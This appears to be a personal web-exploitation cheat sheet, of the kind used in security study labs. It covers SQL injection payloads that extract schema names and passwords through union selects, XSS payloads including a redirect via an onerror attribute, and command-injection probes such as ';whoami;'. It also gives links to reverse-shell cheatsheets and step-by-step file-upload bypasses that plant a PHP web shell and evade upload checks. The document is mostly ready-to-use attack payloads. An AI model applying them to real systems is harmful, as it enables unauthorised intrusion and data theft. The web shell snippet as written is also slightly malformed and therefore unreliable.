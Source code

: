 # Web Exploitation

## SQL injection

### Basic Injection
    - Jeremy'
    - Jeremy"
    - Jeremy' or 1=1#
    - Jeremy' or 1=1-- -

### Union Keywords

### Finding out the numbers of columns
    - Jeremy' union select null,null,null#

### Version of the database
    - Jeremy' union select null,null,version()#
    
### All tables that exists in the database 
    - Jeremy' union select null,null,table_name from information_schema.tables#
### Columns name that exists
    - Jeremy' union select null,null,table_name from information_schema.columns#

### Getting information from a column of a table
    - jeremy' union select null,null,password from injection0x01


## XSS:Cross Site Scripting

### Execute javascript into victims browser
    - Reflected
    - Stored
    - DOM based [No request to the server, vulnerability on client side javascript]

### Simple tesing payloads

    - Alert(1)
    - Print()
    - Prompt("hello")

### DOM based common payloads
    - <img src=x onerror="prompt(1)">
    - <img src=x onerror="window.location.href='http://google.com/'">

### Stored based payloads
    - https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e

## Command Injection

### Basic Payloads
    - ;whoami; asd | grep
    - Which bash ; asd | grep <-- to check which bash is running 
    - Which PHP
    - Which python

### Revshell cheatsheet
    
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
    
    https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp

## File Upload Vulnerabilities

### Case 1
        1. Upload the file 
        2. Look at the request in burp
        3. Change the content type parameter to php and add the command after deleting the content --> <?php system($_GET['cmd']; ?>
        4. Navigate to the php file
        5. Execure system commands
        6. ?cmd = whoami
    
### Case 2 
        1. The check of the file Is now happening serverside
        2.  Payloads to bypass the serverside checks
            a. Logo3.php.png
            b. Logo3.php%00.png (Null byte attack)
            c. .htaccess file
            d. Magic Bytes --> few characters that tell the system what kind of file it is
    Add the php payload in between the file content to bypass the magic bytes check